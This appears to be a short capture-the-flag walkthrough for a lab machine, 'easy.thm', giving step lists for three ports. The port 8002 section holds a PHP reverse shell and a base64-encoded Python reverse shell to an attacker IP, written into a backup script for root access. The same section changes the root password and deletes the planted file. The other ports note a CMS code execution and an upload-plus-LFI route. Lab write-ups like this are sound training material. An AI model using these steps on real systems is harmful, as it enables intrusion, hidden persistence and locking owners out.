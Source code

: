 # H1 Easy
## Port 8002
1. `nc -nvlp 45455`
2. `http://easy.thm:8002/lesson/1`
3. Paste PHP reverse shell of pentest monkey
4. `nc -nvlp 8888`
```
echo cHl0aG9uMyAtYyAnaW1wb3J0IHNvY2tldCxzdWJwcm9jZXNzLG9zO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoIjEwLjguODUuMTAiLDg4ODgpKTtvcy5kdXAyKHMuZmlsZW5vKCksMCk7IG9zLmR1cDIocy5maWxlbm8oKSwxKTtvcy5kdXAyKHMuZmlsZW5vKCksMik7aW1wb3J0IHB0eTsgcHR5LnNwYXduKCJiYXNoIikn | base64 -d > /home/serv3/backups/backup.sh&
```

6. `passwd` and change root password
7. `rm -rf /home/serv3/backups/backup.sh`
## Port 8000
1. http://easy.thm:8000/vbcms
2. Code execution as serv1


## Port 8001
1. Upload .jpg file
2. Local LFI to command exec

